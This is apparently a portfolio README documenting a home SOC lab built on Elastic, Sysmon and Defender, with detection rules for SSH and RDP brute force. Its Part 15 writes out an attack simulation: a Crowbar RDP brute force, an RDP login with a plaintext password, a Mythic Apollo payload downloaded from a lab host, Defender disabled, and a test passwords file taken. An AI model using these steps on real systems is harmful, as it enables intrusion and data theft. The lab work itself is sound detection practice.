# Elastic SOC Detection

## Overview
This project delivers a full SOC lab built with VirtualBox and the Elastic Stack to simulate realistic security monitoring, detection, investigation, and response workflows. The environment integrates **Windows and Linux endpoints, Elastic SIEM, Fleet, Sysmon, Microsoft Defender, Elastic Defend EDR, Mythic C2, Kali Linux and osTicket** to demonstrate how security telemetry flows from endpoint collection through detection, investigation, response and incident tracking.
The project covers **SOC architecture, SIEM deployment, endpoint telemetry collection, authentication monitoring, brute-force detection, adversary simulation, C2 detection, threat investigation, EDR validation and SIEM-to-ticketing automation**, providing a practical demonstration of end-to-end SOC operations.

# PART 1 – SOC Architecture Diagram

## Objective
Designed a SOC architecture blueprint to visualize how security telemetry, monitoring systems and response workflows connect across a controlled lab environment.

## Skills
- **SOC Architecture:** Designed the ELK-based SOC topology and mapped connections between Elastic/Kibana, Fleet, Windows, Ubuntu, Kali, Mythic C2, and osTicket.
- **Network Segmentation:** Defined the private lab network and mapped internal and external connectivity paths.
- **Security Workflow Visualization:** Mapped agent management, log forwarding, Kibana access, C2, and alert-to-ticket flows.
- **Technical Documentation:** Documented the lab's system roles, network relationships, and security communication paths.

## Tools
- **draw.io** — used to produce the architecture diagram.

## Steps



Created the SOC architecture diagram for the on-prem ELK lab, mapping the `192.168.56.0/24` Host-only network and connections between Elastic/Kibana, Fleet, Windows/Linux endpoints, osTicket, Mythic C2, analyst access, and attacker infrastructure.

## Summary
- Mapped endpoint telemetry, SIEM, ticketing, and attack simulation workflows
- Defined the private lab network and component connectivity
- Created the SOC architecture reference for subsequent lab implementation

## Operational Impact
Provides the architecture baseline for implementing and connecting the lab's monitoring, endpoint, ticketing, and attack-simulation components.

---


# PART 2 – Elasticsearch Deployment

## Objective
Establish the core ELK Stack components to support centralized security telemetry collection, storage, processing, and analysis for a SOC monitoring environment.

## Skills
- **SIEM Architecture:** Structured the ELK Stack into a centralized security monitoring architecture.
- **ELK Stack Administration:** Configured the core ELK components and their integration within the on-prem SOC environment.
- **Security Data Flow Design:** Defined the telemetry path between endpoint systems and the Elastic Stack.
- **ES|QL Fundamentals:** Documented the use of ES|QL for searching and analyzing Elasticsearch data.

## Tools
- **Elasticsearch** — security event storage and indexing.
- **Logstash** — event processing layer.
- **Kibana** — security analysis and visualization interface.
- **Elastic Agent** — endpoint telemetry collection.

## Steps



Established the ELK Stack pipeline by defining Elasticsearch for storage/indexing, Logstash for event processing, Kibana for analysis, and Elastic Agent for endpoint telemetry collection.

## Summary

- **Investigation Findings:** Established the endpoint telemetry flow through Elastic Agent, Logstash, Elasticsearch, and Kibana.
- **Decision:** Selected Elastic Agent as the primary endpoint telemetry collector for the detection lab.
- **Outcome:** Established the ELK Stack foundation for centralized security event collection, storage, processing, and analysis.

## Operational Impact
Provides centralized endpoint telemetry visibility and analysis through the ELK Stack.

---


# PART 3 – Kibana Setup

## Objective
Deploy Kibana as the security visualization interface for Elasticsearch, enabling SOC analysts to search, monitor, and investigate collected security data.

## Skills
- **Kibana Administration:** Installed, configured, enrolled, and validated Kibana as the Elasticsearch visualization layer.
- **Linux Administration:** Managed the Kibana service on Ubuntu using systemd and configured the application environment.
- **Network & Firewall Configuration:** Configured Kibana for LAN access on port 5601 and allowed the service through UFW.

## Tools
- Kibana — used as the web interface for searching, visualizing, and analyzing Elasticsearch data.
- Ubuntu Server — used to host the on-prem Kibana service.
- UFW Firewall — configured to allow Kibana browser access.
- SSH — used for remote server administration and configuration.

## Steps

### Ref 1: Kibana Service Active



Installed and configured Kibana on Ubuntu Server and verified the service was running.

**Key Configurations:**
- Configured Kibana on port `5601`.
- Allowed Kibana access through UFW.
- Completed Elasticsearch-Kibana enrollment and browser verification.

### Ref 2: Kibana Dashboard Access



Confirmed successful Kibana access for security monitoring and analysis.

## Summary
- **Investigation Findings:** Confirmed successful Kibana connectivity to Elasticsearch for centralized security data analysis.
- **Decision Made:** Used Kibana as the Elastic Stack visualization and analysis layer.
- **Outcome:** Configured Kibana for log visibility, dashboards, and detection workflows.

## Operational Impact
Provides centralized access to security data for monitoring and analysis.

---


# PART 4 – Windows Server Target Machine

## Objective
Deploy a controlled Windows Server endpoint to generate security telemetry and support SOC detection, investigation, and attack simulation workflows.

## Skills

- **Windows Server Administration:** Deployed and configured a Windows Server 2022 endpoint, including hostname and RDP configuration.
- **Virtual Machine Deployment:** Built and prepared the Windows Server VM in VirtualBox as a controlled SOC target.
- **Network Segmentation:** Applied NAT and Host-Only networking to control communication and limit endpoint exposure.

## Tools
- VirtualBox — used to host and isolate the Windows Server VM within the on-prem lab environment.
- Windows Server 2022 — used as the monitored endpoint for future security event generation.
- Windows Firewall — used to control local endpoint access.

## Steps



Deployed and configured a Windows Server 2022 VM in VirtualBox as a controlled SOC target, including hostname setup, NAT/Host-Only networking, RDP access, and preparation for Elastic Agent deployment.

## Summary
- **Investigation Findings:** Applied VirtualBox NAT and Host-Only networking to provide controlled endpoint communication and isolation.
- **Decision Made:** Maintained Windows Firewall defaults and used VirtualBox networking to control lab exposure.
- **Outcome:** Deployed Windows Server as an isolated SOC target for telemetry generation, attack simulation, and Elastic log ingestion.

## Operational Impact
Provides a controlled endpoint environment for validating detections and investigating security activity.

---


# PART 5 – Fleet Server for Centralized Agent Management.

## Objective
Deploy centralized Elastic agent management to enable consistent security telemetry collection from monitored endpoints.

## Skills
- **Fleet Administration** — Created and configured Fleet policies for centralized Elastic Agent management.
- **Endpoint Enrollment & Troubleshooting** — Enrolled Windows Server into Fleet and resolved enrollment failures.
- **TLS & Network Troubleshooting** — Diagnosed certificate validation and port connectivity issues between Fleet Server and Windows Agent.
- **Security Telemetry Validation** — Verified Windows Security events, including Event ID 4625, in Kibana Discover.

## Tools
- **Elastic Stack 9.4.3** — Centralized security monitoring and Windows event analysis.
- **Fleet Server** — Managed Elastic Agent enrollment and endpoint communication.
- **Elastic Agent** — Collected and forwarded Windows Security telemetry.
- **Kibana** — Configured Fleet policies and validated incoming security events.
- **Ubuntu Server / Windows Server** — Hosted Fleet Server and monitored endpoint components in the on-prem lab.

## Steps

### Fleet Server Deployment
- Deployed Fleet Server on the Ubuntu ELK instance using HTTPS at `https://192.168.56.10:8220`.
- Created the Fleet Server policy and enrollment token in Kibana Fleet management.
- Installed Fleet Server and verified successful connection.



Fleet Server became available for centralized endpoint management.

### Windows Elastic Agent Enrollment
- Created the `DFIR-Windows-policy` in Fleet and enrolled the Windows Server using the generated enrollment command.
- Verified network connectivity between Windows Server and Fleet Server.
- Confirmed the Windows Agent reported Healthy status in Fleet.

~~~powershell
.\elastic-agent.exe install --url=<Fleet-Server-URL> --enrollment-token=<token> --insecure
~~~



## Challenges & Troubleshooting
Fleet Server and Windows Agent enrollment failed due to incorrect package architecture and TLS certificate trust validation errors.  
The issues were resolved by deploying the correct x86_64 package and using `--insecure` to bypass self-signed certificate validation in the lab environment.

## Summary
- **Investigation Findings:** Verified Fleet Server connectivity, endpoint enrollment status, and successful Windows security event ingestion in Kibana Discover.
- **Decision Made:** Used Elastic Fleet for centralized agent management and applied the lab-based TLS workaround to complete endpoint enrollment.
- **Outcome:** Successfully enrolled Windows Server into Fleet and confirmed security telemetry collection through Windows Event ID 4672.



### Operational Impact:
Provides centralized management and visibility of enrolled endpoints, supporting consistent security telemetry collection.

---


# PART 6 – Sysmon Installation & Event Monitoring

## Objective
Deploy and configure Sysmon on the Windows Server endpoint to improve security visibility through detailed endpoint telemetry for detection and investigation.

## Skills
- **Sysmon Deployment & Configuration** — Installed Sysmon with Olaf’s configuration and verified the Sysmon64 service was running.
- **Windows Endpoint Monitoring** — Configured Sysmon to generate detailed endpoint telemetry for file activity.
- **Security Event Validation** — Used Windows Event Viewer to confirm Sysmon Event ID 11 visibility for file creation activity.
- **Endpoint Telemetry Preparation** — Validated Sysmon-generated events for subsequent ingestion into the Elastic Stack.

## Tools
- **Sysmon** — Collected detailed Windows endpoint telemetry and file activity events.
- **Microsoft Sysinternals** — Provided the Sysmon installation package.
- **Olaf Sysmon Configuration** — Supplied the security-focused Sysmon XML configuration.
- **PowerShell** — Used to install and verify Sysmon.
- **Windows Event Viewer** — Validated generated Sysmon events.
- **GitHub** — Used to obtain the Sysmon configuration file.

## Steps

### 1. Sysmon Deployment



Installed Sysmon using the configured Olaf XML configuration to enable endpoint telemetry collection.

### 2. Service Verification



Confirmed the Sysmon64 service was installed successfully and running on the Windows Server endpoint.

### 3. Event Generation Validation



Validated Sysmon telemetry through Windows Event Viewer and confirmed Event ID 11 visibility for file creation activity.

## Summary
Sysmon was deployed and validated on the Windows Server endpoint, establishing reliable file-activity telemetry for Elastic Stack monitoring and future detection engineering.

## Operational Impact
Provides enhanced endpoint visibility for investigating file activity and developing security detections.

---


# PART 7 – Sysmon & Microsoft Defender Log Ingestion

## Objective
Configure Elastic Agent to collect Sysmon and Microsoft Defender event logs from Windows Server into Elasticsearch for security monitoring and investigation.

## Skills
- **Elastic Agent Integration Configuration** — Created and deployed Custom Windows Event Log integrations for Sysmon and Microsoft Defender within the Windows Agent Policy.
- **Windows Event Log Collection** — Configured Sysmon and Windows Defender Operational channels for targeted security event ingestion.
- **Security Telemetry Validation** — Verified Sysmon and Microsoft Defender events in Kibana Discover using `winlog.event_id` and `event.provider`.
- **Log Ingestion Troubleshooting** — Diagnosed missing events by identifying the correct event field/dataset and checking Elastic Agent health in Fleet.

## Tools
- Elastic / Kibana — used to configure integrations, manage policies, and verify ingested security events.
- Elastic Agent — used to collect Windows endpoint telemetry.
- Sysmon — used as an endpoint telemetry source for detailed system activity.
- Microsoft Defender — used as an endpoint security event source.
- Windows Event Viewer — used to identify event channels and validate generated events.
- Fleet — used to monitor Elastic Agent health and deployment status.

## Steps

### Step 1: Configure Sysmon Windows Event Log Integration



Created a Custom Windows Event Log integration and added the Sysmon Operational channel to the existing Windows Agent Policy.

Implementation:

- Created the `DFIR-Win-Sysmon` integration targeting the Sysmon Operational log channel.
- Added, saved, and deployed the integration within the Windows Agent Policy.

### Step 2: Configure Microsoft Defender Event Log Integration



Configured Microsoft Defender event collection and validated security event generation.

Implementation:

- Created the `DFIR-Win-Defender` integration targeting the Windows Defender Operational log channel.
- Configured targeted Event IDs `1116`, `1117`, and `5001`.
- Verified event generation by disabling real-time protection and confirming Event ID `5001`.

### Step 3: Verify Event Log Ingestion





Validated successful Sysmon and Microsoft Defender telemetry ingestion through Kibana Discover.

Verification:
- Confirmed Sysmon events using `winlog.event_id: 1`.
- Confirmed Microsoft Defender events using `winlog.event_id: 5001`.
- Verified event sources using the `event.provider` field.
- Confirmed Elastic Agent health through Fleet.

## Challenges & Troubleshooting
During validation, logs were not immediately visible until the correct `winlog.event_id` field and dataset were identified in Kibana Discover. The issue was resolved by verifying Elastic Agent health, adjusting the search query, and refreshing event discovery.

## Summary
The implementation established centralized Sysmon and Microsoft Defender telemetry collection in Elasticsearch, with event IDs and providers confirming successful ingestion. Targeted Windows Event Log collection provides a validated endpoint telemetry foundation for subsequent SOC monitoring and detection engineering.

## Impact
Improves SOC visibility by centralizing endpoint security telemetry, supporting more efficient detection and investigation of suspicious endpoint activity.

---


# PART 8 – SSH Authentication Log Analysis

## Objective
Configure an Ubuntu SSH server endpoint and analyze authentication logs to identify suspicious login activity before centralized SIEM ingestion.

## Skills
- **Linux SSH Administration** — Configured an Ubuntu Server SSH endpoint, verified remote connectivity, and prepared the system for centralized telemetry collection.
- **Authentication Log Analysis** — Reviewed `/var/log/auth.log` and filtered failed SSH authentication events to identify suspicious login activity.
- **Source IP Extraction** — Parsed authentication log fields with command-line tools to extract source IP addresses associated with failed login attempts.

## Tools
- **Ubuntu Server** — Used as the SSH endpoint generating authentication telemetry.
- **SSH** — Used for remote server access and administration.
- **PowerShell** — Used from the Windows host to establish SSH connectivity with the Ubuntu Server.

## Steps

### 1. SSH Server Setup

Configured the Ubuntu Server VM as an SSH endpoint and verified remote connectivity from the Windows host.

Implementation:
- Verified Ubuntu Server availability and SSH connectivity.
- Updated system repositories and installed package updates.

### 2. Authentication Log Analysis

Reviewed and filtered `/var/log/auth.log` to identify failed SSH authentication activity.

Implementation:
- Used `grep` to locate failed authentication events and filter activity targeting specific user accounts.
- Verified SSH authentication events generated by the SSH service.

### 3. Source IP Extraction & Activity Identification



Extracted source IP addresses from failed SSH authentication events and identified activity patterns consistent with brute-force attempts.

Implementation:
- Used `cut` to separate relevant log fields.
- Identified source IP addresses associated with failed login attempts.

## Summary
Analysis of Ubuntu SSH authentication logs identified failed login attempts and associated source IP addresses, establishing the endpoint as a validated authentication telemetry source for subsequent ELK-based security monitoring.

## Operational Impact
Enables identification and investigation of suspicious SSH authentication activity, including potential brute-force attempts.

---


# PART 9 — Linux SSH Server Elastic Agent Deployment

## Objective
Deploy Elastic Agent on a Linux SSH server to collect authentication telemetry and enable centralized security monitoring and investigation through Elastic.

## Skills
- **Endpoint Enrollment & Policy Management** — Created a dedicated Linux Agent Policy, enrolled the Ubuntu SSH server, and maintained separate policies for Fleet Server and the Linux endpoint.
- **Linux Authentication Monitoring** — Configured Elastic Agent to collect `/var/log/auth.log` from the Ubuntu SSH server.
- **SIEM Data Investigation** — Investigated failed SSH authentication events in Elastic Discover using authentication fields and source IP information.
- **Endpoint Telemetry Validation** — Verified agent health and confirmed Linux authentication telemetry was searchable in Elastic Discover.

## Tools
- **Fleet** — Used for Elastic Agent enrollment, policy management, and endpoint health monitoring.
- **Kibana** — Used to manage Fleet policies and investigate ingested authentication events in Discover.
- **Elastic Agent** — Used to collect Linux authentication telemetry from the Ubuntu SSH server.
- **Ubuntu Server** — Used as the Linux SSH endpoint generating authentication logs.
- **SSH** — Used for remote administration of the Ubuntu Server.

## Steps

### 1: Configure & Deploy Linux Agent
Created a dedicated Linux Agent Policy in Fleet, enrolled the Ubuntu SSH server, and configured collection of Linux authentication logs from `/var/log/auth.log`.

### 2: Resolve Enrollment Issues
Resolved two deployment issues during setup:
- Used the `--insecure` option to overcome the self-signed certificate used by the lab.
- Corrected a Fleet Server policy mismatch after the Fleet Server host was accidentally assigned the Linux endpoint policy.
- Verified Fleet Server health and maintained the SSH server as a separate Linux endpoint.

### 3: Verify Agent Telemetry



Verified the Linux endpoint was healthy in Fleet and confirmed incoming authentication telemetry in Elastic Discover.

### 4: Investigate SSH Authentication Events





Analyzed Linux SSH authentication failure events in Elastic Discover and correlated events using source IP and authentication fields.
- Confirmed `authentication_failure` events from `ubuntu-s2`.
- Correlated the events with source IP `127.0.0.1`.
- Added the `message` field as a table column to improve event visibility during investigation.

## Summary
The Ubuntu SSH server was successfully integrated into Elastic as a managed Linux endpoint, with centralized authentication telemetry validated in Discover and Fleet Server maintained under its dedicated policy.

## Impact
Provides centralized visibility into Linux authentication activity, supporting investigation of suspicious SSH login attempts.

---


# PART 10 – SSH Brute Force Detection Alert & Dashboard

## Objective
Developed an SSH brute force detection workflow in Elastic to identify repeated failed authentication attempts and improve visibility into unauthorized access activity.

## Skills
- **SSH Authentication Analysis** — Analyzed failed SSH authentication events using `system.auth.ssh.event`, `user.name`, and `source.ip` to identify brute-force activity.
- **KQL Detection Filtering** — Built and refined KQL filters for the Linux SSH server and failed authentication events.
- **SIEM Detection Engineering** — Created a threshold-based detection rule for repeated SSH authentication failures.
- **Security Dashboard Development** — Built an Elastic dashboard to visualize failed SSH authentication activity and source locations.

## Tools
- **Elastic Security** — Created and configured the SSH brute-force detection rule.
- **Kibana Discover** — Investigated SSH authentication events and developed the detection query.
- **Kibana Maps** — Built geographic visualization for authentication source activity.
- **Ubuntu SSH Server** — Generated the authentication telemetry used for detection and investigation.

## Steps

### 1. Analyze SSH Authentication Activity
Reviewed SSH authentication events in Kibana Discover and filtered failed authentication attempts using `system.auth.ssh.event`, `user.name`, and `source.ip`.


### 2. Build SSH Brute Force Detection
Created and tested a KQL-based threshold detection rule for repeated failed SSH authentication attempts within a defined time window.

### 3. Build Authentication Activity Dashboard
Created a Kibana dashboard using the failed-authentication search and configured a geographic map to visualize available source-location data.


Validated the dashboard by refreshing the time range and confirming the available authentication activity.

## Challenges & Troubleshooting
The on-prem lab collected source IP addresses but did not automatically populate GeoIP location fields because GeoIP enrichment was unavailable. The workflow was adjusted to investigate attacks using available source IP telemetry while maintaining detection and alerting capabilities.

## Summary
- **Investigation Findings:** SSH authentication telemetry was structured around event type, target account, and source IP to support detection engineering.
- **Decision Made:** Implemented a threshold-based detection rule and supporting dashboard to operationalize repeated failed authentication monitoring.
- **Outcome:** Established an end-to-end Elastic workflow connecting authentication log analysis, automated alerting, and dashboard visualization.

## Operational Impact
Provides a repeatable monitoring workflow that helps analysts prioritize suspicious authentication activity and investigate potential unauthorized access.

---


# PART 11 – Windows Authentication Log Analysis & Brute Force Detection

## Objective
Implement Windows authentication monitoring and RDP brute-force detection in Elastic to identify unauthorized access attempts and improve endpoint security visibility.

## Skills
- **Windows Authentication Analysis** — Analyzed Event IDs `4625` and `4624`, Logon Types, `user.name`, and `source.ip` to identify failed and successful Windows authentication activity.
- **KQL Detection Engineering** — Built and refined KQL queries using `event.code: 4625`, `agent.name`, `user.name`, and `source.ip` to identify failed RDP authentication activity.
- **SIEM Detection Engineering** — Created and configured a Security Detection Rule with threshold, grouping, severity, and scheduling parameters for repeated failed authentication.
- **Detection Validation** — Generated controlled RDP authentication attempts from Kali and confirmed that the configured rule triggered alerts when the threshold was met.
- **Alert Investigation** — Reviewed triggered alerts and correlated `source.ip`, `user.name`, threshold values, hostname, operating system, and other available host context.

## Tools
- **Elastic Security** — Created and validated Windows authentication detection rules and investigated generated alerts.
- **Kibana Discover** — Analyzed Windows authentication events and developed the detection queries.
- **Windows Server** — Provided Windows authentication telemetry, including Events `4625` and `4624`.
- **Kali Linux** — Generated controlled remote authentication activity to validate the RDP detection rule.

## Steps



### Windows Authentication Log Analysis
Analyzed Windows Security events in Kibana Discover and identified failed authentication activity using Event ID 4625, including affected usernames and source IP addresses.

### RDP Brute Force Detection Rule
Created an Elastic Security threshold detection rule using `event.code: 4625` and grouped events by `user.name` and `source.ip` to identify repeated failed remote authentication attempts.



### Detection Validation
Generated controlled RDP authentication failures from Kali Linux and verified that Elastic generated alerts with investigation details such as username, source IP, and threshold activity.



## Challenges & Troubleshooting
Initial Discover-based threshold alerts provided limited investigation context and did not automatically include key fields needed for analysis. Resolved this by creating Security Detection Rules with grouped fields (`user.name` and `source.ip`) to provide richer SOC investigation data.

## Summary
- **Investigation Findings:** Correlated Windows Event ID `4625` telemetry with repeated remote authentication activity and validated the detection logic through controlled RDP attempts.
- **Decision Made:** Used Elastic Security Detection Rules with threshold and event-grouping logic instead of relying solely on Discover-based alerts.
- **Outcome:** Established and validated a Windows RDP brute-force detection workflow alongside the existing SSH detection capability.

## Operational Impact
Creates a repeatable authentication monitoring capability that can automatically surface abnormal RDP login patterns for SOC investigation.

---


# PART 12 – RDP Authentication Activity Map & Dashboard

## Objective
Create Kibana authentication dashboards to improve visibility into Windows Server RDP activity and support faster investigation of remote access attempts.

## Skills
- **Windows Authentication Analysis** — Interpreted Event IDs `4625` and `4624` and RDP Logon Types `10` and `7` to distinguish failed and successful authentication activity.
- **RDP Query Development** — Built and refined queries for failed and successful RDP authentication activity using event codes and Logon Type fields.
- **SIEM Dashboard Engineering** — Built SSH and RDP dashboards combining authentication tables and geographic visualizations for investigation.
- **SIEM Visualization Troubleshooting** — Rebuilt saved searches and map visualizations when query bindings were unavailable, then duplicated working visualizations to preserve the correct dashboard queries.

## Tools
- **Kibana Discover** — Searched Windows authentication events, built saved searches, and configured investigation fields.
- **Kibana Maps** — Created geographic visualizations for SSH and RDP authentication activity.
- **Elastic Security** — Provided the authentication data and dashboard environment for SOC monitoring.
- **Windows Server** — Generated Windows authentication telemetry used by the RDP visualizations.

## Steps



### RDP Authentication Map Creation
Created Kibana Maps visualizations for RDP authentication tracking using failed `event.code: 4625` and successful `event.code: 4624` Windows Security events filtered by Logon Type 10 (RemoteInteractive) and Type 7 (Unlock).

Configured map layers and added authentication activity views to the monitoring dashboard.



### Authentication Table Development
Enhanced the dashboard with table visualizations displaying key investigation fields:

Added dashboard tables displaying Username, Source IP, and Authentication counts across SSH and RDP success and failure metrics.

## Challenges & Troubleshooting
- The on-prem VirtualBox environment used private IP addresses, preventing automatic GeoIP enrichment for geographic mapping. Authentication analysis continued using available telemetry such as source IP addresses and user accounts. In production environments, solutions such as IP2Location can provide additional geographic context for external authentication attempts.
- SSH authentication maps were not linked to their saved Discover sessions, making the Query/Edit option unavailable for connecting each authentications table to table accordingly, unlike the RDP maps. 
I verified each detection query, generated authentication events, saved the Discover sessions, rebuilt the maps using those saved sessions, and duplicated the working visualizations to preserve the correct query bindings across all SSH and RDP dashboards.

## Summary
- **Investigation Findings:** Windows Security events provided visibility into RDP authentication activity, including failed and successful remote access attempts identified through Event IDs `4625` and `4624`.
- **Decision Made:** Organized SSH and RDP authentication telemetry into Kibana Maps and Table visualizations to provide multiple views of authentication activity.
- **Outcome:** Established a consolidated authentication-monitoring dashboard covering failed and successful SSH and RDP activity.

## SOC Impact
Provides a reusable visualization layer for reviewing authentication patterns and identifying abnormal remote-access activity.

---


# PART 13 – Attack Diagram Creation

## Objective
Create an attack lifecycle diagram to visualize the planned attack path, improve security workflow documentation, and guide detection testing activities.

## Skills
- **Attack Path Modeling** — Mapped the planned attack chain from RDP initial access through discovery, defense evasion, execution, C2, and exfiltration.
- **Adversary Simulation Planning** — Defined the infrastructure, attack actions, and post-compromise workflow to be executed during the subsequent Mythic C2 phase.

## Tools
- **draw.io** — Created the attack diagram and visualized the planned attack path and infrastructure relationships.

## Steps

### Attack Infrastructure Mapping
Created an attack diagram showing the lab components involved in the planned attack simulation:

- Mythic C2 Server | Windows Server Target | SSH Server | Kali Linux Attacker | External Communication Infrastructure

### Attack Lifecycle Planning

Mapped the planned attack workflow across multiple phases:



**Phase 1: Initial Access**
- Planned RDP brute force activity against the Windows Server.

**Phase 2: Discovery**
- Planned post-access discovery activities:
  - `whoami` | `ipconfig` |  `net user` | `net group`

**Phase 3: Defense Evasion**
- Planned endpoint security evasion activities after successful access.



**Phase 4: Execution**
- Planned Mythic agent execution on the Windows Server after successful access.

**Phase 5: Command and Control**
- Planned the communication path between the Windows Server and Mythic C2 server.

**Phase 6: Exfiltration**
- Planned file collection activity using a test `passwords.txt` file to generate security telemetry during the subsequent C2 phase.

## Challenges & Troubleshooting
No major implementation issues were encountered during diagram creation. The main focus was accurately representing the planned attack flow and maintaining consistency across each attack phase.

## Summary
- **Investigation Findings:** The attack model identified the planned attacker actions, affected systems, and expected telemetry across each attack phase.
- **Decision Made:** Used a phased attack lifecycle to organize the sequence from initial access through post-compromise activity.
- **Outcome:** Defined the attack scenarios and infrastructure relationships required for the subsequent Mythic C2 phase.

## SOC Impact
Gives analysts a defined set of attack behaviors and affected assets to monitor during subsequent detection and investigation activities.

---


# PART 14 – Mythic C2 Setup

## Objective
Deploy an on-prem Mythic C2 server to simulate adversary activity and understand C2 infrastructure used in security testing.

## Skills
- **C2 Infrastructure Deployment** — Deployed and initialized the Mythic C2 framework on a dedicated Ubuntu Server VM and verified access to its Web UI.
- **Linux System Administration** — Managed the Ubuntu Mythic server through SSH, package updates, service verification, and Docker daemon troubleshooting.
- **VM Network Management** — Resolved DHCP-based IP reassignment by assigning static Host-Only IP addresses to maintain consistent VM identification and connectivity.

## Tools
- **Ubuntu Server** — Hosted the Mythic C2 infrastructure.
- **Mythic C2** — Provided the command-and-control platform.
- **Docker / Docker Compose** — Provided the container runtime for Mythic services.
- **Kali Linux** — Prepared as the attacker VM for the subsequent testing phase.
- **VirtualBox** — Hosted and networked the lab virtual machines.

## Steps


- Prepared the Ubuntu Mythic VM and Kali Linux VM, assigning static Host-Only IP addresses to maintain consistent VM identification and connectivity.
- Installed the required dependencies, cloned the Mythic repository, and built the deployment with `make`.
- Started the Mythic services with `./mythic-cli start` and verified the running containers with `docker ps`.
- Retrieved the Mythic administrator password using `grep -i password ~/Mythic/.env` and accessed the Mythic Web UI over HTTPS through the Host-Only network.
- Verified successful Web UI access and dashboard availability.

## Challenges & Troubleshooting
- **Host-Only IP Management:** DHCP reassigned IP addresses between Ubuntu VMs, causing SSH connectivity issues and unreliable VM identification. Resolved the issue by assigning static Host-Only IP addresses to maintain consistent VM identification and reliable communication as the lab expanded.
- **Docker Deployment:** Mythic initially encountered a Docker daemon connectivity error during the `make` build. Verified the Docker service with `systemctl status docker`, restarted it with `systemctl restart docker`, confirmed Docker was active, and reran `make` successfully.

## Summary
- **Investigation Findings:** DHCP-based Host-Only networking caused IP reassignment between lab VMs, resulting in SSH connectivity and VM identification issues as the infrastructure expanded.
- **Decision Made:** Adopted static Host-Only IP addressing to maintain consistent VM identification and communication.
- **Outcome:** Validated Mythic C2 access through its HTTPS Web UI and confirmed the required infrastructure was operational for the next phase.

## Impact
Provides a controlled on-premises environment for planned adversary-emulation and security-testing activities.

---


# PART 15 - Mythic C2 Attack Simulation & Detection Preparation

## Objective
The objective of this phase was to execute an end-to-end attack workflow by simulating initial access, post-compromise activity, Mythic C2 deployment, payload execution, C2 communication, and controlled data exfiltration within an on-prem SOC lab environment.
The phase generated controlled adversary telemetry to support subsequent SIEM detection engineering and investigation workflows.

## Skills
- **Target Environment Provisioning** — Created the test `passwords.txt` file and weakened the local Windows password policy by reducing the minimum password length and disabling password complexity requirements for controlled attack simulation.
- **Adversary Simulation & Access** — Built a custom password wordlist, tested RDP authentication with Crowbar, investigated the authentication failure, and established manual RDP access to continue the attack workflow.
- **C2 Infrastructure & Payload Delivery** — Installed the Apollo agent and HTTP C2 profile in Mythic, created an Apollo payload, hosted it through Python HTTP Server, configured required firewall access, and delivered the payload to the Windows Server.
- **Post-Compromise Execution & Exfiltration** — Executed discovery commands, disabled Microsoft Defender, established and validated the Apollo C2 callback, executed commands through Mythic, and retrieved the test `passwords.txt` file using Apollo.

## Tools
- **Kali Linux** — Attacker workstation used for RDP attack testing and post-compromise workflow execution.
- **Crowbar** — Tested RDP credential authentication against the Windows Server.
- **Windows Server 2022** — Target endpoint used for authentication, discovery, defense evasion, C2 execution, and test-file collection.
- **Mythic C2** — Hosted the Apollo agent, HTTP C2 profile, payload, callback, and command execution.
- **Apollo Agent** — Provided the Windows C2 capability used to execute commands and retrieve the test file.
- **Python HTTP Server** — Hosted the Apollo payload for transfer to the Windows Server.
- **PowerShell** — Downloaded the hosted Apollo payload to the Windows Server.

# Steps

## 1. Target Preparation & Initial Access
Prepared the Windows Server for controlled attack simulation by creating the test file, weakening the local password policy, and changing the Administrator password.

Built a custom RDP wordlist from `rockyou.txt` and tested authentication with Crowbar.

```text
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
head -50 /usr/share/wordlists/rockyou.txt > dfir-wordlist.txt
```

```text
sudo apt-get install crowbar
crowbar -b rdp -u Administrator -C dfir-wordlist.txt -s <Windows_Server_IP>/32
```

Crowbar reached the RDP service but did not return successful credential discovery. After validating the account and RDP configuration, manual RDP authentication was used to establish access.

```text
xfreerdp /u:Administrator /p:Winter2024! /v:<Windows_Server_IP>:3389
```



## 2. Discovery & Defense Evasion
Performed post-compromise discovery and disabled Microsoft Defender protection features within the controlled lab environment.

```text
whoami
ipconfig
net user
net user administrator
```



## 3. Mythic Apollo C2 Deployment
Installed the Apollo agent and HTTP C2 profile, then generated the Windows payload for the controlled C2 simulation.

```text
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```

Configured the payload with the HTTP callback profile:

```text
Callback Host: http://192.168.56.112
Port: 80
Callback Interval: 10 seconds
Payload: Dele-ELK-Mythic.exe
```

Hosted the payload through Python HTTP Server and transferred it to the Windows Server using PowerShell.

```text
curl http://192.168.56.112:9999/Dele-ELK-Mythic.exe -OutFile Dele-ELK-Mythic.exe
```

## 4. Payload Execution & C2 Communication
- Executed the Apollo payload on the Windows Server and verified the resulting Mythic callback.
- Validated the callback by correlating the Windows process, PID, network connection, and Mythic session.



## 5. Apollo Agent Interaction
Used the active Mythic callback to execute commands against the Windows Server and validate remote command execution through the Apollo agent.





## 6. Controlled Exfiltration Simulation
Used Apollo to retrieve the controlled test file from the compromised Windows Server.

```text
C:\Users\Administrator\Documents\passwords.txt
```



The successful retrieval confirmed controlled post-compromise file collection.

# Challenges & Troubleshooting

## Crowbar RDP Authentication Failure
Crowbar successfully reached the Windows Server RDP service but did not return a valid credential, while manual RDP authentication with the same credentials succeeded.

**Troubleshooting performed:**
- Verified the Administrator account was active.
- Confirmed RDP was enabled and local WORKGROUP authentication was being used.
- Tested multiple username formats:
```text
Administrator
WIN-UM9U5NRA469\Administrator
```
- Confirmed the correct password was present in the custom wordlist.
- Compared the on-premises configuration with the instructor's cloud-based environment.

**Finding:**  
The RDP service and credentials were valid, but Crowbar authentication behavior differed in the on-premises VirtualBox environment.

**Resolution:**  
Continued the attack workflow using manual RDP authentication and documented the Crowbar behavior as an environment-specific troubleshooting finding. The Windows Server remained capable of generating the required RDP authentication telemetry for subsequent detection and SIEM investigation.

# Summary
- **Investigation Findings**: The attack simulation generated telemetry across multiple stages, including RDP access, discovery activity, Apollo execution, C2 communication, and controlled file collection.
- **Outcome**: Deployed Mythic Apollo, established a C2 session, executed commands remotely, and retrieved the controlled test file from the Windows endpoint.
- **Impact**: Provides a controlled telemetry source for developing and validating SOC detections for endpoint execution, C2 activity, and post-compromise behavior.

---


## PART 16 - Mythic C2 Detection Rule & Suspicious Activity Dashboard

### Objective
Develop detection and monitoring capabilities for Mythic C2 activity by creating Elastic detection rules and security dashboards using Sysmon and Windows Defender telemetry.

### Skills
- **SIEM Detection Engineering** — Created and tuned an Elastic custom detection rule for Mythic activity using file, process, and network telemetry from Sysmon.
